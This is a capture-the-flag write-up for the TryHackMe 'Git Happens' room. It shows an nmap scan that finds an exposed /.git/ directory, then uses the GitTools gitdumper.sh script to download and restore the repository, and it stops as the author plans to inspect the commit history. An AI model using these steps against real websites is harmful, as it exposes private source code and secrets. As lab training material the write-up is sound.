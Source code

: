 Difficult: Easy
--------------------------------
Note: Boss wanted me to create a prototype, so here it is! We even used something called "version control" that made deploying this really easy!
--------------------------------
Link: https://tryhackme.com/r/room/githappens

RECONNAISSANCE:

+ Scan the machine with NMAP and GOBUSTER (if need):

```bash
nmap -sV -vv -A -p- -T4 <IP>
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
| http-git: 
|   10.10.227.124:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-title: Super Awesome Site!
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
```
--> We got the hidden directory "/.git/"

![alt text](image.png)

+ We need to research about the vulnerable Git and /.git/ to find the way to exploit them.
+ After researching, we found the tools which we can use them for pwn'ing websites with .git repositories available.
+ Link: "https://github.com/internetwache/GitTools?tab=readme-ov-file"
+ In these tools, we will use tool "Dumper" - This tool can be used to download as much as possible from the found .git repository from webservers which do not have directory listing enabled.

```bash
./gitdumper.sh http://<IP>/.git/ clone
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########

[*] Destination folder does not exist
[+] Creating clone/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[-] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[+] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/d0/b3578a628889f38c0affb1b75457146a4678e5
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/b8/6ab47bacf3550a5450b0eb324e36ce46ba73f1
[+] Downloaded: objects/77/aab78e2624ec9400f9ed3f43a6f0c942eeb82d
....
```

![alt text](image-2.png)

+ We will use "git checkout -- ."

```bash
git checkout -- .
# Copy files from the index to the working tree.
```

![alt text](image-3.png)

--> Check through the files and we got nothing special. So we go deeper than to .git to file commit tree


